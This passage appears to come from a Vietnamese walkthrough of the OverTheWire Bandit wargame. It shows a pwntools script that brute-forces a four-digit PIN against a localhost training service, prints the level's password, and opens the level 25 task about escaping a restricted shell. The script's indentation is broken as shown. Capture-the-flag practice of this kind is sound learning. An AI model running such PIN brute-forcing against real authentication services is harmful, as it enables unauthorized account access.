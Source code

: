 
Script brute-force bằng ngôn ngữ python, sử dụng pwntools:
```python
#!/usr/bin/python3
from pwn import *

i = 0
while i < 10000:
        p = remote("localhost",30002)
        p.recvline()
        payload = b"VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " + str(i).rjust(4,"0").encode()
        #print(f"Sending {payload}")
        p.sendline(payload)
        response = p.recv()
        if b"Wrong! Please enter the correct pincode. Try again." not in  response:
				with open('/tmp/ltd2/password','wb') as f:
				 f.write(response)
				 f.close()
                break
        i+=1
``` 
Đọc file `/tmp/ltd2/password` để lấy password 


![level24_25_2](image/Level24_25_2.png)


Password: `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`

## Level 25 -> Level 26 / Level 26 -> 27 

>Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

Log in vào level 25, nếu chạy lệnh `ls` ở thư mục hiện tại (`~`) ta có được file ssh key dùng để log in vào level 26

